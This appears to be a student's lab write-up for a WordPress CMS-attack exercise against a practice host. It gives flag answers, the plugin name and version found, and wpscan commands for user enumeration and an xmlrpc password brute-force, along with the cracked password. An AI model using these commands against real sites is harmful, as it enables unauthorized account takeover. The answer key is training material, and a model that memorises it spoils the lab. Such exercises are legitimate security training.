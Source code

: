 
## Content Management Systems (CMS)



**vHosts needed for these questions:**
**blog.inlanefreight.local**

**Enumerate the host and find a flag.txt flag in an accessible directory.**

Browse to http://blog.inlanefreight.local/wp-content/uploads/2021/08/flag.txt

Results: 0ptions_ind3xeS_ftw!


Perform manual enumeration to discover another installed plugin. Submit the plugin name as the answer (3 words).

```
curl -s http://blog.inlanefreight.local/?p=1 | grep plugin 
```

Then browse to http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/ and a blank page is returned. Then try http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt

Results: WP Sitemap Page

**Find the version number of this plugin. (i.e., 4.5.2)**

Results: 1.6.4


**Perform user enumeration against http://blog.inlanefreight.local. Aside from admin, what is the other user present?**

```
RUBYOPT='-rlogger' wpscan --url http://blog.inlanefreight.local  -eu   
```

Results: doug


**Perform a login bruteforcing attack against the discovered user. Submit the user's password as the answer.**

```
RUBYOPT='-rlogger' wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local 
```

Output:

```
[!] Valid Combinations Found:
 | Username: doug, Password: jessica1
```

Results: jessica1

**Using the methods shown in this section, find another system user whose login shell is set to /bin/bash.**

When login into the application a modal is displaying prompting us to confirm our email webadmin@inlanefreight.local
